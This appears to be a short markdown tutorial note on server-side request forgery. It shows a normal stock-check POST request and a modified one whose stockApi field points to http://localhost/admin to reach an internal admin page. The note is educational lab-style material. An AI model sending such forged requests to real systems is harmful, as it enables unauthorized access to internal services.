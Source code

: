 # SSRF (Server Side Request Forgery)

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location. 

## Localhost server

With this POST method asking for an Api to provide it information we can divert the URL to asking him for sensible files.

If no security is provide from the server side and always trust the POST we can acess to privates files.

Regulare POST:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

Divert to:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

---

[**:arrow_right_hook: Back home**](/README.md)